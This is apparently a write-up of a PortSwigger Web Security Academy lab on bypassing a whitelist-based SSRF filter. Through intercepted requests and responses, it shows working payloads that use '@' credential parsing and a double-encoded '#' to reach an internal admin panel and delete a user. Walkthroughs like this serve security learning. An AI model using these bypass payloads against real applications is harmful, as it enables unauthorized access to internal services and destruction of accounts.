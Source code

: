 
- **Author:** sonyahack1
- **Date:** 24.04.2025

---

## Intercept request

```html

POST /product/stock HTTP/2
Host: 0afc00f20402a3f8815d205a000100bd.web-security-academy.net
Cookie: session=***********************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0afc00f20402a3f8815d205a000100bd.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: https://0afc00f20402a3f8815d205a000100bd.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```none

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1

```
> with 'Hackvertor' extension

```none
stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=14&storeId=1</@urlencode>
```

> I need to bypass an anti-SSRF filter like white-based input filter
> The server expects to receive a request with data that is allowed to be processed. For example, they are on a white list of allowed values.

> Ok. I will try some methods that probably work.

> I know that there is logic on the server side to check the domain that the request comes to. For example, if i try to change "stock.weliketoshop.net"
> to any other domain, then i will get an error from the server that **the request should be made only to "stock.weliketoshop.net"**.

> For example:

> Request

```none

stockApi=<@urlencode>http://localhost/admin</@urlencode>

```
> Response

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 58

"External stock check host must be stock.weliketoshop.net"

```
> So. There are several ways that can help to trick the server filter and make it make a request to an allowed domain.
> **Note:** It is important to remember that I am trying to bypass the filtering at the level of the application code itself, so
> that the server makes the request further away from itself, and then the request itself with the parsing function and url-encoding. 

> When a URL has '@', everything before the '@' is considered credentials (login and password). And everything after the '@' is considered the real host.
> The '#' symbol in the URL is the beginning of a fragment that is not sent at all. It is only for browsers

> Ok. add the '@' symbol before expected-host and send the request

```none

stockApi=<@urlencode>http://localhost@stock.weliketoshop.net:8080/product/stock/check?productId=14&storeId=1</@urlencode>

```

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

395

```
> Ok. Since the server handles such a request successfully, ignoring what is specified before the @ symbol, I just need to remove the extra part of the URL
> fragment and leave only 'http://localhost/admin'.

> add the double url-encoded "#" symbol, because after the request, decoding will be done during parsing.



```none
stockApi=http://localhost%2523@stock.weliketoshop.net/admin
```

![admin_interface](./screenshots/admin_interface.png)

> delete Carlos user


```none
stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

![lab_solved](./screenshots/lab_solved.png)
